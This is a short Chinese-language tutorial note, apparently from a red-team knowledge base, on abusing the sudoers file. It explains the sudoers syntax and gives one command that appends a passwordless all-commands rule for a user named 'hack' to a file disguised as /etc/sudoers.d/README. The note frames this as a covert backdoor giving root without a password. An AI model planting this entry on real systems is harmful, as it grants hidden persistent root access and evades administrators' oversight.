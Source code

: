 ```yaml
---
title: sudoers利用
id: zhfly3504
---
```


## sudoers 利用

sudo命令可以使用户临时获得管理员权限执行命令，sudo的控制都是基于sudoers文件来控制的，里面限制了用户名，用户组，执行什么等。/etc/sudoers的通用格式为：user host runas command user:一位或几位用户，在/etc/group中可以用一个%代替它，组对象的名称一定要用百分号%开头。host:一个或几个主机名；runas:作为哪个用户运行，常见选项是root和ALL command:想让用户或组运行的一个或几个根级别命令。例如：hans ALL=(root) useradd,userdel 授权hans用户在所有计算机上以root身份运行useradd,userdel命令。这样我们用一句话将内置/或者我们自己添加的普通权限用户添加到sudoer列表中，这样就可以偷着执行管理员权限的命令了。将原本低权限用户当做后门使用。

```
sudo su -c "echo 'hack ALL = NOPASSWD: ALL' >> /etc/sudoers.d/README" 
```

![image](../img/8f61d0e13b6094d8d5ad0ae96430d878.png)

![image](../img/3b44ef05dae24ea6a28546b611f716bb.png)

可以看到我们不需要密码就可以直接提到root。